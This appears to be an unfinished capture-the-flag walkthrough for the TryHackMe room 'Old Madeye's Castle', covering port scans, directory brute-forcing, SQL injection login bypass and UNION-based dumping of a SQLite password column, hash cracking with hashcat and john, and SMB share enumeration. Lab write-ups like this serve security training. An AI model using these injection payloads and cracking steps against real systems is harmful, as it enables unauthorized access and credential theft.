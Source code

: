 # Old Madeye's Castle

**Room Link:** [https://tryhackme.com/room/madeyescastle](https://tryhackme.com/room/madeyescastle)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>





### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
subl /etc/hosts
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://hogwartz-castle.thm/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Browser**

```
Username: 1' or '1'='1'-- -
Password: 1' or '1'='1'-- -
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**List**

```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
1' UNION SELECT null,null,null,null-- -
1' UNION SELECT null,null,null,null,null-- -
```

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





```
' union select group_concat(tbl_name),2,3,4  FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
=' union select group_concat(password),2,3,4  FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'-- 
```

<figure><img src="../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (21) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sed 's/,/\n/g' pass.txt > passwords.txt
```

<figure><img src="../../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python3 hash-id.py c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
```

<figure><img src="../../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**results.txt**

```
c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
e1ed732e4aa925f0bf125ae8ed17dd2d5a1487f9ff97df63523aa481072b0b5ab7e85713c07e37d9f0c6f8b1840390fc713a4350943e7409a8541f15466d8b54
5628255048e956c9659ed4577ad15b4be4177ce9146e2a51bd6e1983ac3d5c0e451a0372407c1c7f70402c3357fc9509c24f44206987b1a31d43124f09641a8d
2317e58537e9001429caf47366532d63e4e37ecd363392a80e187771929e302922c4f9d369eda97ab7e798527f7626032c3f0c3fd19e0070168ac2a82c953f7b
79d9a8bef57568364cc6b4743f8c017c2dfd8fd6d450d9045ad640ab9815f18a69a4d2418a7998b4208d509d8e8e728c654c429095c16583cbf8660b02689905
e3c663d68c647e37c7170a45214caab9ca9a7d77b1a524c3b85cdaeaa68b2b5e740357de2508142bc915d7a16b97012925c221950fb671dd513848e33c33d22e
d3ccca898369a3f4cf73cbfc8daeeb08346edf688dc9b7b859e435fe36021a6845a75e4eddc7a932e38332f66524bd7876c0c613f620b2030ed2f89965823744
dc2a6b9462945b76f333e075be0bc2a9c87407a3577f43ba347043775a0f4b5c1a78026b420a1bf7da84f275606679e17ddc26bceae25dad65ac79645d2573c0
6535ee9d2b8d6f2438cf92da5a00724bd2539922c83ca19befedbe57859ceafd6d7b9db83bd83c26a1e070725f6f336e21cb40295ee07d87357c34b6774dd918
93b4f8ce01b44dd25c134d0517a496595b0b081cef6eb625e7eb6662cb12dd69c6437af2ed3a5972be8b05cc14a16f46b5d11f9e27e6550911ed3d0fe656e04d
9a311251255c890692dc84b7d7d66a1eefc5b89804cb74d16ff486927014d97502b2f790fbd7966d19e4fbb03b5eb7565afc9417992fc0c242870ea2fd863d6d
5ed63206a19b036f32851def04e90b8df081071aa8ca9fb35ef71e4daf5e6c6eab3b3fea1b6e50a45a46a7aee86e4327f73a00f48deb8ae2bf752f051563cc8b
87ac9f90f01b4b2ae775a7cb96a8a04d7ab7530282fd76224ee03eecab9114275540e4b6a2c52e890cf11f62aacb965be0c53c48c0e51bf731d046c5c3182aad
88344d6b7724bc0e6e3247d4912fa755a5a91c2276e08610462f6ea005d16fd5e305dfe566e7f1dd1a98afe1abfa38df3d9697cdc47ecbb26ac4d21349d09ba7
7f67af71e8cbb7188dd187b7da2386cc800ab8b863c9d0b2dce87c98a91b5511330a2ad4f7d73592b50a2a26c26970cfbd22f915d1967cd92569dbf5e24ac77e
8c8702dbb6de9829bcd6da8a47ab26308e9db7cb274b354e242a9811390462a51345f5101d7f081d36eea4ec199470162775c32cb1f4a96351dc385711619671
c809b40b7c3c0f095390f3cd96bb13864b7e8fd1670c6b1c05b1e26151be62782b97391b120cb4a8ee1d0c9b8fffaf12b44c9d084ae6041468ad5f12ec3d7a4e
68b519187b9e2552d555cb3e9183711b939f94dfe2f71bda0172ee8402acf074cc0f000611d68d2b8e9502fa7235c8a25d72da50916ad0689e00cb4f47283e9b
7eea93d53fbed3ba8f2fa3d25c5f16fe5eaff1f5371918e0845d2076a2e952a457390ad87d289bf25f9457032f14bb07dcd625d03f2f5ee5c887c09dc7107a66
e49608634f7de91d19e5e1b906e10c5a4a855a4fe32521f310727c9875e823c82b3e0347b32ef49ea44657e60e771d9e326d40ab60ce3a950145f1a7a79d3124
c063c5215b56091327a1f25e38e2d0a5e6db83cceb0ab29cbb0bedd686c18ee5770bfbbfa0a4ac542c8935b0fb63e30ea0bc0408d3523157d840fdfa54ec8dab
487daab566431e86172ed68f0836f3221592f91c94059a725d2fdca145f97e6258593929c37d0339ca68614a52f4df61953b930585c4968cedaaa836744c52a6
44b1fbcbcd576b8fd69bf2118a0c2b82ccf8a6a9ef2ae56e8978e6178e55b61d491f6fc152d07f97ca88c6b7532f25b8cd46279e8a2c915550d9176f19245798
a86fa315ce8ed4d8295bf6d0139f23ba80e918a54a132e214c92c76768f27ce002253834190412e33c9af4ea76befa066d5bdeb47363f228c509b812dc5d81df
a1f6e38be4bf9fd307efe4fe05522b8c3a9e37fc2c2930507e48cb5582d81f73814ffb543cef77b4b24a18e70e2670668d1a5b6e0b4cb34af9706890bd06bbc9
01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
d17604dbb5c92b99fe38648bbe4e0a0780f2f4155d58e7d6eddd38d6eceb62ae81e5e31a0a2105de30ba5504ea9c75175a79ed23cd18abcef0c8317ba693b953
ac67187c4d7e887cbaccc625209a8f7423cb4ad938ec8f50c0aa5002e02507c03930f02fab7fab971fb3f659a03cd224669b0e1d5b5a9098b2def90082dfdbd2
134d4410417fb1fc4bcd49abf4133b6de691de1ef0a4cdc3895581c6ad19a93737cd63cb8d177db90bd3c16e41ca04c85d778841e1206193edfebd4d6f028cdb
afcaf504e02b57f9b904d93ee9c1d2e563d109e1479409d96aa064e8fa1b8ef11c92bae56ddb54972e918e04c942bb3474222f041f80b189aa0efd22f372e802
6487592ed88c043e36f6ace6c8b6c59c13e0004f9751b0c3fdf796b1965c48607ac3cc4256cc0708e77eca8e2df35b668f5844200334300a17826c033b03fe29
af9f594822f37da8ed0de005b940158a0837060d3300be014fe4a12420a09d5ff98883d8502a2aaffd64b05c7b5a39cdeb5c57e3005c3d7e9cadb8bb3ad39ddb
53e7ea6c54bea76f1d905889fbc732d04fa5d7650497d5a27acc7f754e69768078c246a160a3a16c795ab71d4b565cde8fdfbe034a400841c7d6a37bdf1dab0d
11f9cd36ed06f0c166ec34ab06ab47f570a4ec3f69af98a3bb145589e4a221d11a09c785d8d3947490ae4cd6f5b5dc4eb730e4faeca2e1cf9990e35d4b136490
9dc90274aef30d1c017a6dc1d5e3c07c8dd6ae964bcfb95cadc0e75ca5927faa4d72eb01836b613916aea2165430fc7592b5abb19b0d0b2476f7082bfa6fb760
4c968fc8f5b72fd21b50680dcddea130862c8a43721d8d605723778b836bcbbc0672d20a22874af855e113cba8878672b7e6d4fc8bf9e11bc59d5dd73eb9d10e
d4d5f4384c9034cd2c77a6bee5b17a732f028b2a4c00344c220fc0022a1efc0195018ca054772246a8d505617d2e5ed141401a1f32b804d15389b62496b60f24
36e2de7756026a8fc9989ac7b23cc6f3996595598c9696cca772f31a065830511ac3699bdfa1355419e07fd7889a32bf5cf72d6b73c571aac60a6287d0ab8c36
8f45b6396c0d993a8edc2c71c004a91404adc8e226d0ccf600bf2c78d33ca60ef5439ccbb9178da5f9f0cfd66f8404e7ccacbf9bdf32db5dae5dde2933ca60e6 
```





<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sed 's/,/\n/g' usernames.txt > users.txt 
```

**users.txt**

```
Lucas Washington
Harry Turner
Andrea Phillips
Liam Hernandez
Adam Jenkins
Landon Alexander
Kennedy Anderson
Sydney Wright
Aaliyah Sanders
Olivia Murphy
Olivia Ross
Grace Brooks
Jordan White
Diego Baker
Liam Ward
Carlos Barnes
Carlos Lopez
Oliver Gonzalez
Sophie Sanchez
Maya Sanders
Joshua Reed
Aaliyah Allen
Jasmine King
Jonathan Long
Samuel Anderson
Julian Robinson
Gianna Harris
Madelyn Morgan
Ella Garcia
Zoey Gonzales
Abigail Morgan
Joseph Rivera
Elizabeth Cook
Parker Cox
Savannah Torres
Aaliyah Williams
Blake Washington
Claire Miller
Brody Stewart
Kimberly Murphy
```



Stopped here

<figure><img src="../../../.gitbook/assets/image (392).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>









Notes

<figure><img src="../../../.gitbook/assets/image (388).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat --stdout -r /opt/hashcat/rules/best64.rule spellnames.txt > possible_passwords.txt
john --format=raw-sha512 results.txt --wordlist=possible_passwords.txt
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

###

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I used /usr/share/dirb/wordlists/common.txt as my payload

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>













###

###

###

###

###

###

###

###

###

###

###

###

###

###

###

### **TCP/445  - SMB**

**Kali**

```
smbclient -L //$VICTIM/
smbclient -L //$VICTIM/sambashare
smbclient \\\\$VICTIM\\sambashare
smb: \> ls  
smb: \> get .notes.txt  
smb: \> get spellnames.txt
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>















